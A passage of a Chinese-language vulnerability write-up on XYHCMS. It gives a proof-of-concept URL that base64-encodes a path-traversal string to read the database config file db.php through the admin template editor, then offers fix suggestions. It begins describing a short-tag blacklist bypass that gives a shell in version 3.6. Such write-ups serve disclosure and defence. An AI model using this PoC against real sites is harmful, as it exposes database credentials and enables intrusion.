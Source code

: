 

登录网站后台


数据库配置文件路径：	`\App\Common\Conf\db.php`





[![fi58fS.png](https://z3.ax1x.com/2021/08/03/fi58fS.png)](https://imgtu.com/i/fi58fS)



我们将这段组成相对路径，..\..\..\App\Common\Conf\db.php，

然后进行base64编码，

Li5cXC4uXFwuLlxcQXBwXFxDb21tb25cXENvbmZcXGRiLnBocA==

[POC]最后构造的链接如下：

```
http://127.0.0.1/XYHCms_V3.5/uploads_code/xyhai.php?s=/Templets/edit/fname/Li5cXC4uXFwuLlxcQXBwXFxDb21tb25cXENvbmZcXGRiLnBocA==
```



[![fi5YlQ.png](https://z3.ax1x.com/2021/08/03/fi5YlQ.png)](https://imgtu.com/i/fi5YlQ)

#### 修复建议



1. 取消base64解码，过滤.(点)等可能的恶意字符。

   

2. 正则判断用户输入的参数的格式，看输入的格式是否合法：这个方法的匹配最为准确和细致，但是有很大难度，需要大量时间配置。

###  

### 四.xyhcms 3.6 后台代码执行漏洞

------



#### 漏洞描述



XYHCMS是一款开源的CMS内容管理系统。



XYHCMS后台存在代码执行漏洞，攻击者可利用该漏洞在site.php中增加恶意代码，从而可以获取目标终端的权限。



代码中使用黑名单过滤<?php 却忘记过滤短标签，导致后台系统设置-网站设置处可使用短标签在站点表述处getshell。



#### 漏洞分析



按步骤安装好网站之后，找到`../App/Runtime/Data/config/site.php `这个文件。

